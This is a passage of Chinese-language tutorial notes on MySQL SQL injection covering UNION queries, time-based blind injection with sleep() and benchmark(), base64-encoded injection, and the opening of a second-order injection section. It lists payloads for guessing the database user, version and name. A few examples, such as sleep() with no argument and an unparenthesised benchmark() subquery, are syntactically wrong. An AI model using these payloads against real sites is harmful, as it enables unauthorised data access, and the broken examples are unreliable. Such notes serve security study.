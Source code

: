 

**Mysql的SQL注入：UNION查询**

UNION会去掉重复的行，如果不想去掉，可使用UNION ALL

必备条件：

- 所有查询中必须具有相同的结构
- 对应列的数据类型可以不同但是必须兼容
- 如果为XML数据类型则列必须等价

例子： `select id,user,passwd from users union select 1,2,3;`

**MySQL延迟注入**

- 延迟注入是通过页面返回的时间来判断的
- 不同的mysql数据库版本延迟注入的语句也不同
- mysql >= 5.0 的可以使用sleep()进行查询
- mysql < 5.0 可以使用benchmark()进行查询
- benchmark()的用法
- benchmark(n,sql语句)n为查询次数
- 通常查询时间的增多返回时间变得缓慢来判断是否存在延迟注入
- select benchmark(1000,select * from admin)
- sleep()延迟注入用法
- sleep可以强制产生一个固定的延迟。
- sleep()延迟注入核心原理
- and if(true,sleep(5),0);==IF(1=1,true,false);
- id=1 and sleep(5) 不断下是否存在延迟注入
- and if(substring(user(),1,4)='root',sleep(5),1)判断当前用户
- and if(MID(version(),1,1)like 5,sleep(),1)判断数据库版本信息是否为5
- 可以去猜解他的数据库
- and if(ascii(substring(database(),1,4))>100,sleep(5),1)
- sqlmap --time-sec 延迟注入



**base64编码注入**

- 解码
- 构造语句
- 编码
- $id = base64_decode($id)







### 二阶注入

SQL注入一般可分为两种,一阶注入(普通的SQL注入)和二阶SQL注入



一阶SQL注入发生在一个HTTP请求和响应中,系统对攻击输入立刻反应执行。一阶注入的攻击过程归纳如下:

- 攻击者在HTTP请求中提交恶意SQL语句

- 应用处理恶意输入,使用恶意输入动态构造sql语句
